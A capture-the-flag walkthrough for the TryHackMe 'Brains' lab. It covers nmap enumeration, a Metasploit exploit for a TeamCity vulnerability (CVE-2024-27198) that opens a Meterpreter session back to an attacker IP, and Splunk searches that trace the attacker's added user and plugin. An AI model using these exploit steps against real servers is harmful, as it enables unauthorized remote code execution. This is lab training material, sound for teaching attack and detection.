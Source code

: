 ## THM CTF - Brains

We can start changing local DNS to easily handle all the process.
```
sudo nano /etc/hosts
```
Add the record:
```
xxx.xxx.xxx.xxx	   brains.thm
```
Now we can proceed with an Nmap scan.
```
sudo nmap -sS -T4 brains.thm -p-
```
We discovered four open ports, and we can list the services they provide.
```
sudo nmap -sS -T4 brains.thm -p22,80,36131,50000 -sV
```
```
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
36131/tcp open  java-rmi Java RMI
50000/tcp open  http     Apache Tomcat (language: en)
```
It's time for some browsing.
```Port 80``` offers us a site in maintenance, while ```port 50000``` offers us with a login page.

```Port 36131``` gives us some hints about a possible API (Java remote invocation) located on the target machine.

Let's enumerate both ```port 80 and 50000```.

We find that the login page belongs to a product named ```TeamCity```.
Having the ```build number``` in the login page, we can try to search for a possible exploit.

We manage to find this one:

[https://github.com/W01fh4cker/CVE-2024-27198-RCE](https://github.com/W01fh4cker/CVE-2024-27198-RCE)

We check if there is something in the ```Metasploit Framework```.
```
msfconsole
search TeamCity
```
We find the same exploit ready to be used.
Just set all the parameters correctly.
```
set RHOSTS brains.thm
set RPORT 50000
set LHOST [Attaker_IP]
```
We obtain a ```Meterpreter``` session.
```
shell
/bin/bash -i
```
We can navigate to the user’s home folder and retrieve the flag.

Let’s proceed with the second part of the task.

Logging in with Splunk credentials we can begin the investigation process.

Using search function:
```
last year
adduser
```
we are able to identify the attack date. Narrowing the search using this information, we find the name of the user added by the attacker.

Then, with the same time interval, we can search for the name of the package installed.
```
install
```
Using this filter we can easily find the second flag.

Last filter to use in order to find the third flag is:
```
plugin
```
